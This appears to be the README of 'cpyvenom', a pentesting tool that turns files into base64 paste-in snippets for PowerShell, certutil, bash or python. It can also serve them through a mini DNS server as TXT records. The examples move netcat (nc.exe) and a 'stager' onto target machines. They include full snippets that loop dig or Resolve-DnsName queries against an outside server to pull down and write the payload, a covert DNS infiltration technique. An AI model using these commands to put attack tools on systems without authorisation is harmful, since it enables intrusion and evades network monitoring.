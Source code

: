  ## Script to transfer files with a copy/paste from terminal when only few options are available




### Added DNS Upload

Added the possibility to upload file through DNS TXT record requests, the script will open a mini-dns server to serve the file in base64 chunks inside parametrized TXT-record response.

**Prerequisites:**
* **The IP address and the port must be reachable from the internet**
* **To listen on port 53 you will need to execute the script as root.**
* **it depends on dnslib**  

<br />
<br />

 
* Yet another pentesting script

* It converts a target file to transfer in base64 rows and generates convenient output


```
..######..########..##....##.##.....##.########.##....##..#######..##.....##
.##....##.##.....##..##..##..##.....##.##.......###...##.##.....##.###...###
.##.......##.....##...####...##.....##.##.......####..##.##.....##.####.####
.##.......########.....##....##.....##.######...##.##.##.##.....##.##.###.##
.##.......##...........##.....##...##..##.......##..####.##.....##.##.....##
.##....##.##...........##......##.##...##.......##...###.##.....##.##.....##
..######..##...........##.......###....########.##....##..#######..##.....##

    
Transfer files with a simple copy/paste from terminal when no other options are available


Usage: cpyvenom.py -p <payload> -i <inputfile> -d <destination> -o <save_to_outputfile> -b 100 

Available commands:

    -p / --payload          windows/powershell, windows/certutil, linux/bash, linux/python, 
                            dns/powershell, dns/bash

    -i / --input-file       file path to send

    -o / --output-file      save the encoded output to file, default to stdout

    -d / --destination      destination path in the remote system

    -b / --block            size of the block

    ____________________________________

    Arguments that work only on dns payloads:

    -P / --port             the DNS Server listening port
    
    --udp /--tcp            Connection method
    
    --dns-ip                dns domain or IP address to query
    
    --sleep                 delay between requests (seconds, default 1)
    
    --no-server             print the snippet without setup the listening server


    Example:

        windows:
            python3 cpyvenom.py -i nc.exe -o nc.cpyvenom -p windows/powershell -d "C:\\temp\\nc.exe"

        linux:
            python3 cpyvenom.py -i /bin/nc -o nc.cpv -p linux/bash -d /tmp/nc


    DNS payload Examples:
        
        windows:
            sudo python3 cpyvenom.py -p dns/powershell --input-file=nc.exe -d "c:\\temp\\nc.exe"  --dns-ip=192.168.1.254 --port=53 
        
        linux:
            sudo python3 cpyvenom.py -p dns/bash --input-file=stager -d "/tmp/stager"  --dns-ip=192.168.1.254 --port=53
        


```


Example:

```

python3 cpyvenom.py -p windows/powershell -i simpleapp.exe -d c:\\temp\\simpleapp.exe
Input file is  simpleapp.exe
Output file is StdOut
Payload  windows/powershell
Destination c:\temp\simpleapp.exe

Copy from here:

$FilePath="c:\temp\simpleapp.exe"
$EncodedString =  '' 
$EncodedString+="TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA4AAAAA4fug4AtAnNIbgB" 
$EncodedString+="TM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0KJAAAAAAAAABMzsLOCK+snQivrJ0Ir6ydWsepnBCv" 
$EncodedString+="rJ1ax6icBa+snVrHrZwNr6ydHMStnAyvrJ0Ir62dWK+sna3GqZwJr6ydrcZTnQmvrJ2txq6cCa+snVJpY2gIr6ydAAAAAAAAAABQ" 
$EncodedString+="RQAATAEJAH3RQGAAAAAAAAAAAOAAAgELAQ4QAHIAAABKAAAAAAAAnRMBAAAQAAAAEAAAAABAAAAQAAAAAgAABgAAAAAAAAAGAAAA" 
$EncodedString+="AAAAAAAgAgAABAAAAAAAAAMAQIEAABAAABAAAAAAEAAAEAAAAAAAABAAAAAAAAAAAAAAACjSAQBkAAAAAAACADwEAAAAAAAAAAAA" 
$EncodedString+="AAAAAAAAAAAAABACACgEAAAApQEAOAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADilAQBAAAAAAAAAAAAAAAAA0AEAKAIAAAAA" 
            --- cut ----
$EncodedString+="cD94P5Q/nD/oP/Q/ALABABQAAABUMFgwdDB4MJQwmDAA8AEADAAAAAAwAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" 
$EncodedString+="AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" 
$EncodedString+="AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" 
$EncodedString+="AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA=" 
$ByteArray = [System.Convert]::FromBase64String($EncodedString);
[System.IO.File]::WriteAllBytes($FilePath, $ByteArray);

```

DNS upload the file README.md to a linux machine example:
```
sudo python3 cpyvenom.py -p dns/bash --input-file=README.md -d "/tmp/README.md"  --dns-ip=192.168.1.254 --port=53
Input file is  README.md
Output file is  StdOut
Payload  dns/bash
Destination /tmp/stager
Preparing file chunks...

Copy from here:

**********

for n in $(seq 0 30);do echo "dig txt +short c$n @192.168.1.254  & sleep 1" ;done | sh | tr -d '"' | base64 -d > /tmp/README.md

**********

Starting nameserver...^C to stop.

```



DNS upload the file nc.exe to a windows machine example:
```
sudo python3 cpyvenom.py -p dns/powershell --input-file=nc.exe -d "c:\\temp\\nc.exe"  --dns-ip=192.168.1.254  --port=53
Input file is  nc.exe
Output file is  StdOut
Payload  dns/powershell
Destination c:\temp\nc.exe
Preparing file chunks...

Copy from here:

**********

$FilePath="c:\temp\nc.exe"
$EncodedString =  '' 
for ($num = 1 ; $num -le 10 ; $num++){$current='c'+$num.ToString()+'.com'; $EncodedString+=(Resolve-DnsName $current -Server 192.168.1.254 | Select-Object -Property Strings ).Strings ;Start-Sleep -s 1 };
$ByteArray = [System.Convert]::FromBase64String($EncodedString);
[System.IO.File]::WriteAllBytes($FilePath, $ByteArray);

**********

Starting nameserver...^C to stop


```


Once the mini-DNS server has started, paste the 'for' snippet to remote machine, it will download the file with concatenating of TXT-record base64 encoded response




Credits:
https://stackoverflow.com/questions/16977588/reading-dns-packets-in-python
https://floatingpoint.sorint.it/blog/post/introduction-to-dns-exfiltration-and-infiltration






